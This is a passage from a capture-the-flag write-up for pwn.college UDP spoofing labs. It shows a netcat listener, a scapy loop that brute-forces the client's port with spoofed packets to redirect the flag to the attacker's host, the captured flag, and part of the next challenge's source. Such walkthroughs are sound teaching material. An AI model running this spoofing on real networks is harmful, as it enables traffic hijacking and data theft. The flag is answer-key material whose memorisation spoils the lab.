 So we will have to brute-force the port on which the client

```
root@ip-10-0-0-1:/# nc -u -lvp 9999 &
[1] 1136
```

```py
>>> from scapy.all import *
>>> 
>>> for port in range(32768, 61000):
...     pkt = IP(src="10.0.0.3", dst="10.0.0.2") / UDP(sport=31337, dport=port) / Raw(load="FLAG:10.0.0.1:9999")
...     send(pkt, verbose=0)
... 
nc: getnameinfo: Temporary failure in name resolution
pwn.college{gaHGS_2JwLNSOQCbFMznbkN_zzL.QX2QDM2EDL4ITM0EzW}
```


```py
In [1]: from scapy.all import *
   ...: 
   ...: for port in range(32768, 61000):
   ...:     pkt = IP(src="10.0.0.3", dst="10.0.0.2") / UDP(sport=31337, dport=port) / Raw(load="FLAG:10.0.0.1:9999")
   ...:     send(pkt, verbose=0)
   ...: 
nc: getnameinfo: Temporary failure in name resolution
pwn.college{gaHGS_2JwLNSOQCbFMznbkN_zzL.QX2QDM2EDL4ITM0EzW}
```

&nbsp;

## UDP Spoofing 4

### Source code
```py title="/challenge/run" showLineNumbers
#!/usr/bin/exec-suid --real -- /usr/bin/python -I

import psutil
import socket
import time
import os

from dojjail import Host, Network

flag = open("/flag").read()
parent_process = psutil.Process(os.getppid())

class ServerHost(Host):
    def entrypoint(self):
        server_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        server_socket.bind(("0.0.0.0", 31337))
        while True:
            try:
                client_message, (client_host, client_port) = server_socket.recvfrom(1024)
                if client_message.strip() == b"ACTION?":
                    server_socket.sendto(b"NONE", (client_host, client_port))
            except ConnectionError:
                continue

class ClientHost(Host):
    def entrypoint(self):
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        while True:
```